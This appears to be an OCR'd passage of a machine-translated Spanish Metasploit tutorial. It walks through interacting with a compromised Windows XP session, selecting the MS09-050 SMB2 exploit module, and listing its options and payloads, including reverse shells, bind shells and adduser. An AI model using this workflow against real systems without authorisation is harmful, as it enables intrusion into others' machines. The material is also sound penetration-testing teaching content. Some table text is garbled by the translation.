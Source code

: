 	msf exploit ( ani_loadimage_chunksize )> sesiones -i 2
	[*] Iniciando interacción con 2 ...
	
	Microsoft Windows XP [Versión 5.1.2600]
	(C) Copyright 1985-2001 Microsoft Corp.
	
	C:\Documents and Settings\victim\Desktop>


## USANDO EXPLOITS EN METASPLOIT

Seleccionar un exploit en Metasploit agrega los comandos de exploit y check a msfconsole.


	msf> use exploit/windows/smb/ms09_050_smb2_negotiate_func_index 
	msf exploit ( ms09_050_smb2_negotiate_func_index )> help
	...recorte...
	Explorar comandos
	================
	
	    Descripción del comando
	    ------- -----------
	    check Comprobar para ver si un objetivo es vulnerable
	    exploit Lanzar un intento de exploit
	    pry Abre una sesión de palanca en el módulo actual
	    rcheck Vuelve a cargar el módulo y comprueba si el objetivo es vulnerable
	    reload Solo recarga el módulo
	    back a ejecutar Alias ​​para rexploit
	    rexploit Vuelve a cargar el módulo y lanza un intento de explotación
	    run Alias ​​para exploit

	MSF exploit ( ms09_050_smb2_negotiate_func_index )>


## SHOW
El uso de un exploit también agrega más opciones al comando show .

Objetivos de explotación de MSF

	msf exploit ( ms09_050_smb2_negotiate_func_index )> show options
	
	Explotar objetivos:
	
	   Nombre de identificación
	   ----
	   0 Windows Vista SP1 / SP2 y Server 2008 (x86)
	Cargas útiles (payloads) de explotación de MSF
	msf exploit ( ms09_050_smb2_negotiate_func_index )> show payloads
	
	Cargas útiles compatibles
	===================
	
	   Nombre Fecha de divulgación Rango Descripción
	   ---- --------------- ---- -----------
	   Carga útil personalizada normal genérica / personalizada
	   generic/debug_trap normal Trampa de depuración genérica x86
	   generic/shell_bind_tcp shell de comando genérico normal, enlazar TCP en línea
	   generic/shell_reverse_tcp shell de comando genérico normal, TCP inverso en línea
	   generic/tight_loop normal Genérico x86 Tight Loop
	   windows/adduser normal Windows Execute net user/ADD
	...recorte...

